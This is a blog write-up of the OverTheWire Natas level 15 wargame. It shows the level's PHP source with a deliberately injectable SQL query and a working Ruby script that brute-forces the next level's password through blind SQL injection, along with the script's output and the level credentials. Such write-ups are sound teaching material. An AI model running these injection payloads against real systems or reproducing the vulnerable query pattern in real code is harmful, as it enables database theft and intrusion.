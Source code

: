 ```yaml
---
title: "OverTheWire Natas Level 15"
date: "2012-11-14T06:29:00-05:00"
comments: true
highlight: "true"
categories:
 - overthewire
 - wargames
 - natas
 - php
 - sqlinjection
 - hacking
aliases:
 - "/2012/11/11/overthewire-natas-level-15"
 - "/2012/11/13/overthewire-natas-level-15"
 - "/2012/11/overthewire-natas-level-15.html"
---
```


Up until now, none of the OverTheWire Natas challenges really gave me that much of an issue. This one however, took me a couple hours to complete. Level 15 is a fun blind sql-injection vulnerability. 

<!-- more -->

It starts out with a username check dialog, which pretty much only gives you a binary value as to if a username exists or not.

{{% figure class="img-responsive" src="/img/natas15_1.png" %}}

I looked at the source code, and couldn't see any way to inject some SQL to get it to retrieve the password for me. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas15</h1> 
<div id="content"> 
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        echo "This user exists.<br>"; 
    } else { 
        echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
<input type="submit" value="Check existence" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

I did notice though, that it would verify that a row was returned, so I could inject SQL to brute-force the password. Assuming that the password was 32 digits long (like the previous ones), this could take some time however, since the character set was uppercase, lowercase, and digits. That's up to 62 attempts per digit of the password. I started doing this manually to verify that this was a possibility. With the "debug" flag on, you can see the query, and that the first digit of the password is not "b".

{{% figure class="img-responsive" src="/img/natas15_1.png" %}}

I cycled through manually all the lowercase and upper case letters. Once I got partially through the numbers, I got a successful hit! This means that the password starts with a "3".

{{% figure class="img-responsive" src="/img/natas15_1.png" %}}

The next step for me, was to automate this process. I decided to write some ruby to accomplish it. This code seems to do the job: 

```
require 'uri'
require 'net/http'

url = URI.parse("http://natas15.natas.labs.overthewire.org/index.php")
http = Net::HTTP.new(url.host, url.port)
chars = ('a'..'z').to_a + ('A'..'Z').to_a + ('0'..'9').to_a
password = ""
found = false

# 64 was selected, since the password field is a varchar(64)
# Most likely, since all other passwords were 32 digits long, it'll be that
(1..64).each do |i|
 chars.each do |c| 
  found = false
  request = Net::HTTP::Post.new(url.request_uri)
  request.basic_auth("natas15", "m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV")
  query = 'natas16" AND SUBSTRING(password, ' + i.to_s + ', 1) LIKE BINARY "' + c
  request.set_form_data({"username" => query})
  response = http.request(request)

  if response.body.include?("This user exists")
   password += c
   found = true
   puts "Current pass: #{password}"
   break
  end
 end
 # If no letter/number was found, it's fairly safe to assume it's done
 break if !found
end

```

The output shows: 

```
mandreko$ ruby natas15.rb
Current pass: 3
Current pass: 3V
Current pass: 3Vf
Current pass: 3VfC
Current pass: 3VfCz
Current pass: 3VfCzg
Current pass: 3VfCzga
Current pass: 3VfCzgaW
Current pass: 3VfCzgaWj
Current pass: 3VfCzgaWjE
Current pass: 3VfCzgaWjEA
Current pass: 3VfCzgaWjEAc
Current pass: 3VfCzgaWjEAcm
Current pass: 3VfCzgaWjEAcmC
Current pass: 3VfCzgaWjEAcmCQ
Current pass: 3VfCzgaWjEAcmCQp
Current pass: 3VfCzgaWjEAcmCQph
Current pass: 3VfCzgaWjEAcmCQphi
Current pass: 3VfCzgaWjEAcmCQphiE
Current pass: 3VfCzgaWjEAcmCQphiEP
Current pass: 3VfCzgaWjEAcmCQphiEPo
Current pass: 3VfCzgaWjEAcmCQphiEPoX
Current pass: 3VfCzgaWjEAcmCQphiEPoXi
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9H
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Ht
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htl
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htlm
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmV
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L
```

And there you go, the password for level 16 shows up as the last line before it quits. 

